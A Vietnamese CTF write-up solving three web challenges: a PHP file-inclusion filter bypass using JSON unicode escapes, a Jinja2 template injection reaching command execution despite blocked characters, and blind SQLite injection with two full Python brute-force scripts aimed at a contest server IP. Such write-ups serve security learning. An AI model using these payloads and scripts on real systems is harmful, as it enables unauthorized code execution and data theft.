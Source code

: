 # WannaWinFreshman-Writeup
# Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/63658021-4722-4417-b2ed-48eb746d03fe)

- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Bài này mới vào thì mình nghĩ đến LFI với filter base64 nhưng khổ nổi là nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
- Sau gần 30 phút - 1 tiếng thì mình tìm được một bài viết dưới đây [LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c7280b09-24af-47b3-9a0e-e82ed1894471)
- Cơ bản là json_decode nó sẽ decode luôn unicode trong biểu diễn hex vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/463ea634-efa7-4c42-b0d9-92341d335d5b)
- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
- ~~Funfact: Payload mình ra bài của mình là encode gần như tất cả các ký tự thành dạng unicode biểu diễn hex làm mình tốn rất nhiều thời gian <(")~~
# Bài 2 Namename:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/d8bc1de3-0f9a-45ff-9878-141cd0df45ad)
- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
-[image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c1b22bdc-3266-495f-b6e0-a7edcd95eef0)
- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2 ( Mình sẽ nói về rõ cách SSTI này lần sau :v)
- Mình ném ngay payload của mình vào thử xem RCE được không
- Payload : `{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}`
- Và nó bị chặn ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/77f0aa01-5dfa-4ad9-9c2b-9e6ba8736812)
- Sau vài thử nghiệm thì có vẽ nó chặn dấu . nên mình chuyển qua |attr

- Payload mới: `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`
- Và ok nó hoạt động tốt
- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt` thôi
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/28f86e01-25e7-4e51-8e67-9e53225a5f43)
- Và không nó vẫn bị chặn cái gì nên mình sử dụng cách này bypass filter
- `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2c578c66-f98c-43dd-a306-e629ab3f7137)
- Flag: **W1{U_are_master_in_SSTI}**
# Bài 3 Solite:
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/5d20fa22-0fc9-4f4c-8039-7de1d61b594f)
- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như này mà làm sao đó mà tìm được flag
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/7d1fe742-a26a-4705-9888-f2d827d562b5)
- Sau khi nghiên cứu và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter vì trong filter là substrs thứ mà không hề tồn tại
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/ae13e11e-52fe-4bb5-8360-c2095b361fc4)
- Đây là query của bài
  ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/317e6d80-27b4-41c2-b14b-c4b6e6d84b37)
- Sau một vài thử nghiệm thì mình tìm được các để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i
` 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/32f3cf53-f620-48af-8da5-d07cfca0a405)
`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Scripting của mình
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```
- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~









